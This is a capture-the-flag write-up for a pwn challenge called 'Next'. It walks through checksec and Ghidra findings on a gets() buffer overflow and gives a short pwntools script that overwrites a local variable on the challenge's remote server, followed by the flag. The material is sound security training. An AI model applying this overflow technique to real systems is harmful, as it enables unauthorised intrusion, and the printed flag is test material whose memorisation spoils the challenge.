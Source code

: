 # 🧩 Next – Pwn Challenge Writeup

## 📌 Challenge Name : **Next**
![Challenge Overview](assets/Overview.png)
---

## 📷 Section 1: Binary Security Check (Checksec)

![Checksec Screenshot](assets/Checksec.png) 

### 🔒 Security Analysis (Checksec Output)

- **RELRO**: Partial – GOT is not fully protected, allowing GOT overwrite attacks.
- **Stack Canary**: ❌ Missing – No protection against stack buffer overflows.
- **NX**: ❌ Disabled – The stack is executable, making shellcode injection possible.
- **PIE**: ✅ Enabled – Code is loaded at random memory addresses.
- **Symbols**: ✅ Present – Not stripped, helpful for reverse engineering.

---

## 🧠 Section 2: Ghidra Static Analysis

![Ghidra Screenshot](assets/Ghidra.png)

### 🔍 Key Observations (from Ghidra)

- The program reads input using `gets()`, making it vulnerable to buffer overflows.
- A 72-byte buffer is followed by a 64-bit variable `local_10`.
- The value of `local_10` is compared to `0x3839736f7265` (ASCII: `"eros98"`).
- If matched, the function `flag()` is called.

---

## 🎯 Exploitation

Overflow the buffer and overwrite `local_10` with the desired value:

````
from pwn import *

payload = b"A" * 72 + p64(0x3839736f7265)

# Remote exploit
p = remote("airange.aucssociety.com", 47331)
p.sendlineafter("destination?", payload)
p.interactive()
````

![Flag ](assets/Flag.png)

---

## 🏁 Flag

```
flag{Y0U_4r3_G00D_4T_bU55s}
```

---

## 👤 Author

### ~ **Basim Mehdi**  
### ~ *Team: 0xFAILURES*
